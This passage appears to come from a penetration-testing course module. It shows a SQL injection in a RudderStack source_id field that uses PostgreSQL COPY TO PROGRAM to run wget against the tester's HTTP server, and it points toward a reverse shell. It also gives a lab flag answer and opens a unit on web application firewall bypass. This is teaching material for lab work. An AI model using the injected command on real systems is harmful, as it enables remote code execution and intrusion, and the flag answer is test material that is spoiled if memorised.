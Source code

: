 Let's try using COPY to call wget and send a request back to our VM. First, we'll set up an HTTP server with Python to handle the request.

kali@kali:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
Listing 14 - Starting an HTTP server with Python

Next, we'll update the source_id in Repeater to '; copy (select 'a') to program 'wget -q http://192.168.48.2:9000/it_worked' -- - and then Send the request.

Figure 18: Repeater with 500 Internal Error Response
Figure 18: Repeater with 500 Internal Error Response
The application responded with an error, indicating that wget failed. However, if we check our HTTP server, the server did send a request.

kali@kali:~$ python3 -m http.server 9000
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
192.168.120.144 - - [29/Feb/2024 15:26:01] code 404, message File not found
192.168.120.144 - - [29/Feb/2024 15:26:01] "GET /it_worked HTTP/1.1" 404 -
Listing 15 - Request from vulnerable server

Excellent. We were able to use the SQL injection vulnerability to run a command on the server. From here, we should be able to get a reverse shell on the server.

For more ways to exploit SQL injection with PostgreSQL, refer to the ManageEngine Applications Manager AMUserResourcesSyncServlet SQL Injection RCE Learning Module.

Resources
Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

RudderStack - Exercise	
Labs
Using the RudderStack - Exercise VM, exploit the SQL injection vulnerability and get a reverse shell. The flag is located in /flag.txt.
Answer
OS{5633f99f32eb3442f2adc997bc79943b}
12.3. Bypassing a Web Application Firewall
This Learning Unit covers the following Learning Objectives:

Understand the Basic Concepts of a Web Application Firewall
Analyze Web Application Firewall Rules To Find Bypasses
Build a SQL Injection Payload To Bypass a Web Application Firewall
After performing a web application assessment and identifying vulnerabilities, we may be asked if there are compensating controls or other mitigations for the vulnerabilities. For example, we may have performed the assessment in a non-production environment with fewer controls, such as a web application firewall (WAF). A WAF protects a web application by monitoring traffic with a set of predefined rules. Most WAFs will block traffic that violates a rule, preventing the potentially-malicious traffic from reaching the web application.

Developers may also attempt to create a virtual patch for a vulnerability using custom WAF rules. This approach allows developers to quickly protect an application without modifying the application's code or redeploying it. However, virtual patches are a temporary solution, or a part of defense in depth.
